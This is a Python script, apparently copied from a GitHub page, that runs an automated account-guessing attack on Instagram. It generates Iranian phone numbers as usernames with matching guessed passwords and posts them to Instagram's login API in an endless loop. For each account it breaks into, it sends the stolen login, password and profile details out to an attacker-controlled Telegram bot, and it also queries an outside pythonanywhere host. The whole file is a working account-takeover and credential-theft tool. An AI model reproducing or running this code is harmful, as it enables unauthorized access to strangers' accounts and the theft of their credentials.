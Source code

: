 
import webbrowser
import os,sys,subprocess
        
subprocess.getoutput("pip install requests")
import requests,sys,os,time


Z =  '\033[1;31m'  #احمر
X =  '\033[1;33m' #اصفر
BRed="\033[1;31m" # Red
BGreen="\033[1;32m" # Green
BYellow="\033[1;33m" # Yellow
BBlue="\033[1;34m" # Blue
BPurple="\033[1;35m" # Purple
BCyan="\033[1;36m" # Cyan
BWhite="\033[1;37m" # White
Z = '\033[1;31m' #احمر
A = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
X = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
S = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
'\033[1;34m'
'\033[1;34m'


try:
    import os
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
   


    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.1)
            
logo ='''
 
؏ــــــــــلـــــــــــــــيـــــــــمــــــن جـــبـــــيـــرة😹
                                         
𝙷𝙸 𝙸 𝙰𝙼 𝚃𝙾𝙾𝙻 \n𝙲𝙷:@Dr_Clay
                                   '''   
print(logo)
print(Z+'='*50)


print(Z1+''*50)
ID = input(Z + ' 𝚃𝙳 :') 
tok = input(Z + ' 𝚃𝙾𝙺𝙸𝙽 :' ) 


def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']

        GHOST = f" [‼️]Ⓝ︎Ⓔ︎Ⓦ︎\n [🎃]𝕁𝕆𝐊𝔼ℝ 𝕋𝕆𝕆𝕃 \n━━━━━━◇🦋◇━━━━━━\n [🎃]𝙴𝙼𝙰𝙸𝙻 ✓ : [ {username} ]\n [🎃]𝙿𝙰𝚂𝚂𝚆𝙾𝚁𝙳 ✓ : [ {password} ]\n [🎃]𝚄𝚂𝙴𝚁 ✓ : [ {userQ} ]\n [🎃]𝙵𝙾𝙻𝙻𝙾𝚆𝙴𝚂 ✓ :  [{followes}]\n [🎃]𝙳𝙰𝚃𝙴 ✓: [ {dat} ]\n [🎃]𝙰𝙲𝙲𝙾𝚄𝙽𝚃 ✓ :[ https://www.instagram.com/{userQ} ]\n━━━━━━◇🦋◇━━━━━━\n [🎃]𝚋𝚈 ✓ : [ @Dr_Clay ]"
        
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {GHOST} \n"
        i = requests.post(tlg)


url = 'https://i.instagram.com/api/v1/accounts/login/'
headers = {'User-Agent':'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',  'Accept':'*/*',  'Cookie':'missing',  'Accept-Encoding':'gzip, deflate', 
             'Accept-Language':'en-US', 
             'X-IG-Capabilities':'3brTvw==', 
             'X-IG-Connection-Type':'WIFI', 
             'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8', 
             'Host':'i.instagram.com'}
sleep(1)
sleep(0.1)
user = '0987654321'
while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+98903' + us
        password = '0903' + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username,
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            os.system('cls' if os.name == 'nt' else 'clear')
            print(Z1+f"\r                 \n [+] HUNT : {zz} \n [+] GUESS : {aa}\n [+] USER : {username} \n [+] PASSWORD : {password} ",end='')
        else:
            os.system('cls' if os.name == 'nt' else 'clear')
            print('''؏ــــــــــلـــــــــــــــيـــــــــمــــــن جـــبـــــيـــرة😹
                ''' )                          
            print(S +'='*50)
            print(C+f"\r \n {F}[+] 𝙷𝚄𝙽𝚃 : {zz} \n\n {Z}[+] 𝙶𝚄𝙴𝚂𝚂 : {aa}\n\n {S}[+] 𝚄𝚂𝙴𝚁 : {username} \n\n{S} [+] 𝙿𝙰𝚂𝚂𝚆𝙾𝚁𝙳 : {password} ",end='')
            aa += 1
